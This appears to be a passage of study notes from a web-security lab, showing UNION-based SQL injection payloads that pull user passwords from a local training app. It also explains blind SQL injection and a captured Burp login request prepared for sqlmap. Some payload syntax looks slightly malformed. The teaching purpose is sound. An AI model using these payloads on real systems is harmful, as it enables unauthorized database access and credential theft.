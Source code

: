 ### Retrieve Password Query

Since we discover there’s password in our current table injection0x01. use select password from injection0x01.

- SQL: jeremy' union select password from injection0x01,null,null#
    
    Username: jeremy - Email: jeremy@example.com
    Username: - Email: jeremyspassword
    Username: - Email: jessamyspassword
    Username: - Email: bobspassword
    

<aside>
⚠️

If 1st column doesn’t work, try insert query in 2nd column. If it still not working, try 3rd column, and so on.
SQL: jeremy' union select null,password from injection0x01,null#

</aside>

## SQLi Blind

when **Web application doesn’t return any error messages or data from DB**. We need to look for **subtle differences** in the server's response, which can reveal whether the input field is vulnerable to SQL injection.
E.g., Response Content-Length

<aside>
🚨

If it **return the same response as the original request**, it means the input is vulnerable to SQLi.

</aside>

After determine the vulnerability to SLQi Blind, we use YES/NO approach to extract data.
E.g., Is user 'Admin' existed in DB? YES/NO?

### Burp Suite Proxy

Using Burp Proxy intercept `POST /labs/i0x02.php` request that contains login payload `username=jeremy&password=jeremy` .

Copy and paste the entire body to .txt file, we will use SQLMAP to identify injectable input area.

POST /labs/i0x02.php HTTP/1.1
Host: localhost
Content-Length: 31
Cache-Control: max-age=0
Origin: [http://localhost](http://localhost/)
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Connection: keep-alive
username=jeremy&password=jeremy
